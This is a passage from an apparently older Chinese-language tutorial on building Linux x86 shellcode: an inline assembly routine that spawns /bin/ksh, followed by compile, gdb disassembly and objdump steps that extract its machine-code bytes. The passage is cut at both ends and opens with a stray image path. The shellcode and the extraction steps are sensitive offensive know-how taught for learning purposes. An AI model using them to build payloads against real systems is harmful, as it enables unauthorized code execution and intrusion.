         call   -0x2f                    # 5 bytes
        .string \"/bin/ksh\"            # 9 bytes
    ");
}

16. gcc -o shellcodeasm -g -ggdb shellcodeasm.c

17. gdb shellcodeasm

[scz@ /home/scz/src]> gdb shellcodeasm
GNU gdb 4.17.0.11 with Linux support
This GDB was configured as "i386-redhat-linux"...
(gdb) disassemble main
Dump of assembler code for function main:
0x8048398 :       pushl  %ebp
0x8048399 :     movl   %esp,%ebp
0x804839b :     jmp    0x80483c7 
0x804839d :     popl   %esi
0x804839e :     movl   %esi,0x9(%esi)
0x80483a1 :     movb   $0x0,0x8(%esi)
0x80483a5 :    movl   $0x0,0xd(%esi)
0x80483ac :    movl   $0xb,%eax
0x80483b1 :    movl   %esi,%ebx
0x80483b3 :    leal   0x9(%esi),%ecx
0x80483b6 :    leal   0xd(%esi),%edx
0x80483b9 :    int    $0x80
0x80483bb :    movl   $0x1,%eax
0x80483c0 :    movl   $0x0,%ebx
0x80483c5 :    int    $0x80
0x80483c7 :    call   0x804839d 
0x80483cc :    das
0x80483cd :    boundl 0x6e(%ecx),%ebp
0x80483d0 :    das
0x80483d1 :    imull  $0x0,0x68(%ebx),%esi
0x80483d5 :    leave
0x80483d6 :    ret
End of assembler dump.
(gdb) x/bx main+3 <-- -- -- 输入
0x804839b :     0xeb
(gdb)
0x804839c :     0x2a
(gdb)
...

如此下去即可得到完整的机器码。
但是我们不必如此罗嗦，昨天介绍过的objdump今天派上用场了：
objdump -j .text -Sl shellcodeasm | more
/main
得到如下结果：

08048398 :
main():
/home/scz/src/shellcodeasm.c:2
{
8048398:       55                      pushl  %ebp
8048399:       89 e5                   movl   %esp,%ebp
/home/scz/src/shellcodeasm.c:3
    __asm__
804839b:       eb 2a                   jmp    80483c7 
804839d:       5e                      popl   %esi
804839e:       89 76 09                movl   %esi,0x9(%esi)
80483a1:       c6 46 08 00             movb   $0x0,0x8(%esi)
80483a5:       c7 46 0d 00 00 00 00    movl   $0x0,0xd(%esi)
80483ac:       b8 0b 00 00 00          movl   $0xb,%eax
80483b1:       89 f3                   movl   %esi,%ebx
80483b3:       8d 4e 09                leal   0x9(%esi),%ecx
